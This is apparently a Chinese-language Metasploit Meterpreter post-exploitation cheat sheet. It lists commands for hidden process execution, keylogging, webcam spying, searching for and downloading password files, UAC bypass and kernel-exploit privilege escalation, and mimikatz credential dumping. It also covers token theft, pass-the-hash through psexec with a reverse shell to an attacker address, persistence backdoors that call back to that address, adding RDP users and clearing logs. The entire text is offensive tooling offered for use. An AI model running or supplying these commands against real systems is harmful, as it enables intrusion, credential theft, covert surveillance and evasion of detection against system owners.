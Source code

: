 ##### 交互
  	CTRL+Z    把session放入后台
	当攻击成功后会返回会话，使用session -l命令列出当前获取到的会话
	>session -l
	使用
	>sessions -i id 来进入一个会话进行交互
	>sessions -k id 杀死一个会话
	>background 将当前会话放置后台
	>sessions -x检查心跳
	>sessions -u [ID] cmdshell升级meterpreter shell
	>reboot / shutdown   重启/关机
##### 命令
  	>idletime 查看目标机闲置时间
	>shell 进入目标cmdshell
	>uictl [enable/disable] [keyboard/mouse/all]  开启或禁止键盘/鼠标
	>uictl disable mouse  禁用鼠标
	>uictl disable keyboard  禁用键盘
	>webcam_list   查看摄像头
	>webcam_snap   通过摄像头拍照
	>webcam_stream  通过摄像头开启视频
	>execute -H -i -f cmd.exe 执行cmd.exe，-H不可见，-i交互 
	>execute -H -m -d calc.exe -f wce.exe -a "-o 1.txt" 隐藏执行
	>execute -H -i -c -m -d calc.exe -f /root/wce.exe -a  -w   从内存执行
	>ps 查看进程
	>migrate pid     迁移进程
	>kill pid   #杀死进程
	>screenshot  截图
	>run 执行模块，2下tab列出
	>run post/windows/capture/keylog_recorder 键盘记录
	>run packetrecorder -li 列出接口
	>run packetrecorder -i 1  监控接口
##### 文件操作
	>pwd 查看当前目录
	>ls 列出当前目录文件
	>search -f *pass*        搜索文件
	>cat c:\\passwd.txt   查看文件内容
	>upload /tmp/pwn.txt C:\\1.txt   上传文件
	>download c:\\passwd.txt /tmp/  下载文件
	>edit c:\\1.txt  编辑或创建文件
	>rm C:\\1.txt 删除文件
	>mkdir folder  创建文件夹
	>rmdir folder  删除文件夹
	>lcd /tmp   #攻击者主机 切换目录
	>timestomp -v C://2.txt   #查看时间戳
	>timestomp C://2.txt -f C://1.txt #将1.txt的时间戳复制给2.txt
##### 提权
	>getuid 查看权限
	>getsystem 提权
	bypassuac
	>use exploit/windows/local/bypassuac
	>use exploit/windows/local/bypassuac_injection
	>use windows/local/bypassuac_vbs
	>use windows/local/ask
	内核漏洞提权
	>run post/windows/gather/enum_patches
	>use exploit/windows/local/ms13_053_schlamperei
	>set SESSION 2
	>exploit
##### 后渗透&权限维持
###### 查看信息ip和路由
	ipconfig/ifconfig
	netstat –ano
	route
###### 端口转发
	portfwd add -l 4444 -p 3389 -r 127.0.0.1 目标机的3389转发到本地4444
###### 添加路由及进行扫描
	run autoroute –h #查看帮助
	run autoroute -s 192.168.159.0/24  #添加到目标环境网络
	run autoroute –p  #查看添加的路由
	run post/windows/gather/arp_scanner RHOSTS=192.168.159.0/24
	run auxiliary/scanner/portscan/tcp RHOSTS=192.168.159.144 PORTS=3389
###### Socks4a代理
	msf> use auxiliary/server/socks4a 
	msf > set srvhost 127.0.0.1
	msf > set srvport 1080
	msf > run
	vi /etc/proxychains.conf 添加 socks4 127.0.0.1 1080
###### mimikatz抓密码
	load mimikatz
	wdigest
	mimikatz_command -f samdump::hashes  #执行mimikatz命令
	mimikatz_command -f sekurlsa::searchPasswords
###### 开启RDP
	run getgui –h #查看帮助
	run getgui -e #开启远程桌面
	run getgui -u lltest2 -p 123456   #添加用户
	run getgui -f 6661 –e   #3389端口转发到6661

	run post/windows/manage/enable_rdp 开启rdp
	run post/windows/manage/enable_rdp USERNAME=www2 PASSWORD=123456  添加用户
	run post/windows/manage/enable_rdp FORWARD=true LPORT=4444 端口转发
###### sniffer抓包
	use sniffer
	sniffer_interfaces   #查看网卡
	sniffer_start 2   #选择网卡 开始抓包
	sniffer_stats 2   #查看状态
	sniffer_dump 2 /tmp/lltest.pcap  #导出pcap数据包
	sniffer_stop 2   #停止抓包
###### incognito假冒令牌
	use incognito
	list_tokens -u
	impersonate_token 'NT AUTHORITY\SYSTEM'  假冒SYSTEM token
	或者impersonate_token NT\ AUTHORITY\\SYSTEM #不加单引号 需使用\\
	execute -f cmd.exe -i –t    # -t 使用假冒的token 执行
	或者直接shell
	rev2self   #返回原始token
###### steal_token窃取
	steal_token <PID>  窃取令牌
	drop_token 删除窃取的token
###### hash
	获取hash >run post/windows/gather/smart_hashdump 需system权限
	PSExec哈希传递
	msf > use exploit/windows/smb/psexec
	msf > set payload windows/meterpreter/reverse_tcp
	msf > set LHOST 192.168.159.134
	msf > set LPORT 443
	msf > set RHOST 192.168.159.144
	msf >set SMBUser Administrator
	msf >set SMBPass aad3b4*****04ee:5b5f00*****c424c
	msf >set SMBDomain  WORKGROUP   #域用户需要设置SMBDomain
	msf >exploit
###### persistence启动项后门
	run persistence -X -i 5 -p 6661 -r 192.168.159.134
	-X 开机自启动，-i反向连接的时间间隔(5s) –r 指定攻击者的ip
	连接
	use exploit/multi/handler
###### metsvc
	run metsvc –A 安装后门
	连接
	use exploit/multi/handler
	端口31337
##### 清理日志
	>clearav 